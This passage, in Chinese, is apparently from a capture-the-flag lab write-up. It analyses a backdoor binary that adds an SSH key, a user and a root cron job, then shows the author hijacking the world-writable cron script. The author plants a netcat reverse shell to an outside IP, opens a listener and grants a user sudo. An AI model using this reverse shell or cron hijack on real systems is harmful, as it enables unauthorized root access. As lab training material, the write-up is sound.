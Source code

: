 *   由 *fixutil* 二进制文件将其内容复制到 */tmp* 目录中的原始 *liblogging.so* 文件被移动到位于其原始目录中的名为 *oldliblogging.so* 的新文件中。
*   接下来是 */root/。ssh/authorized_keys* 被打开，一个公钥被添加到文件中。
*   二进制程序继续将名为 *security* 的用户添加到 web 服务器，并将他们的密码更改为所提供的 SHA-512 散列密码。
*   然后调用名为 *XOREncryptWebFiles()* 的方法。
*   最后，打开一个名为 *brilliant_script.sh* 的 shell 脚本，添加一些 bash 来搜索 web 服务器上正在运行的 bash 进程，然后杀死它们。这个 shell 脚本随后被添加为属于用户 root 的 *cronjob* 。

根据上面的信息，这解释了为什么我的 SSH 连接总是在几分钟后断开。为了解决这个问题，我决定仔细查看位于 */opt* 目录中的 *brilliant_script.sh* 文件。检查文件权限，我可以看到文件的所有者、文件组中的任何人以及其他所有人都拥有对 *brilliant_script.sh* 文件的读、写和执行权限。我还发现了一个名为*的隐藏目录。但是这需要 root 权限才能访问。*

![](img/2d490f6bbd654c0527e77f5f53fbd4ee.png)

我决定尝试通过编辑 *brilliant_script.sh* 文件获得一个具有 root 权限的反向 shell。我用 *scp* 检索文件，用下面的逆向 shell 编辑。

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.20.131 4444 >/tmp/f
```

我使用 *scp* 将其复制到 web 服务器并覆盖现有文件。在设置 netcat 监听端口 4444 之后，我尝试使用 SSH 凭证登录。

```
nc -lvnp 4444
```

几分钟后，我获得了一个具有 root 权限的反向 shell。

![](img/6ea071f206549fdb116f75d3fb96abf5.png)

完成此操作并刷新进度控制面板后，我收到了下一个标志。

![](img/f7426c8134fffbab7f9e0830c4565675.png)

在我的反向 shell 中，我还授予用户 alex sudo 权限，这意味着我可以使用 root 权限运行命令。

```
sudo usermod -a -G sudo alex
```
